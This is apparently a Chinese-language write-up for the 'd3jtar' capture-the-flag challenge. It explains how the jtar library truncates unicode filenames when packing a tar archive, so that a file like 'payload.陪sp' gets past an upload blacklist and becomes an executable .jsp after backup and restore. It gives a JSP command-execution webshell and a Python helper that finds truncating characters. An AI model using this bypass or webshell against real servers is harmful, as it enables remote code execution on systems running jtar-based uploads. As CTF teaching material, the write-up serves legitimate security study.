

# d3jtar-WP-CH

本题网站文件备份系统的 view 路由下配置了不安全的 jsp 解析，显然只要成功上传 jsp 文件即可 RCE。然而后端对上传文件的名称做了较为严格的校验，理想情况下选手无法通过其他手段绕过 secureUpload 校验来上传 jsp 文件。

那么结合本题标题可知，解题的关键在于工具类 Backup 所使用的 jtar 打包库。在使用 jtar 的 TarOutputStream 打包文件时，它会把文件名中的 unicode 强制转化为 ascii 码，从而发生字符截断。利用这一点，我们可以将后缀带有特定 unicode 字符的文件上传至靶机，绕过后缀黑名单检查，通过备份与恢复功能将上传的文件转变为 jsp 后缀的文件并放回 jsp 可解析目录，最终 RCE 获取 flag。

示例文件如下：

文件名：payload.陪sp --> payload.jsp

```java
<%@ page import="java.io.*" %>
<%
    String cmd = "printenv";
    String output = "";

    try {
        Process p = Runtime.getRuntime().exec(cmd);
        BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
        String line;
        while ((line = reader.readLine()) != null) {
            output += line + "<br>";
        }
    } catch (Exception e) {
        output = "Error executing command: " + e.getMessage();
    }
%>

<html>
<head><title>Command Output</title></head>
<body>
<h2>Executed Command: <code><%= cmd %></code></h2>
<pre><%= output %></pre>
</body>
</html>
```

具体原理可查看 jtar 源码（[https://github.com/kamranzafar/jtar](https://github.com/kamranzafar/jtar)）中 TarHeader 的 getNameBytes 方法如下，使用 `(byte)` 强制转换 unicode 文件名称时会导致字符截断，打包后文件名称发生改变。



解题所使用的 unicode 字符可以参考以下脚本获取，只要可以转换为正常后缀的 ASCII 字符即可，例如 `payload.멪ⅳば` 也是相同效果。

```python
import unicodedata

def reverse_search(byte_value):
    low_byte = byte_value & 0xFF
    candidates = []

    for high in range(0x00, 0xFF + 1):
        code_point = (high << 8) | low_byte
        try:
            char = chr(code_point)
            name = unicodedata.name(char)
            candidates.append((f"U+{code_point:04X}", char, name))
        except ValueError:
            continue
    return candidates

ascii_character = "j"  # "s","p"
byte_val = ord(ascii_character)
print(f"Possible original characters ({byte_val} → 0x{byte_val & 0xFF:02X}）:")
results = reverse_search(byte_val)
for cp, char, name in results:
    print(f"{cp}: {char} - {name}")
```

另外，其实选手如果有心注意的话，在 jtar 的 github 项目里有一条 23 年的 pr（最上方），是关于中文编码错误的修改（但并未被合并），可以作为一条潜在的 hint，提醒选手关注 jtar 的编码问题。😉
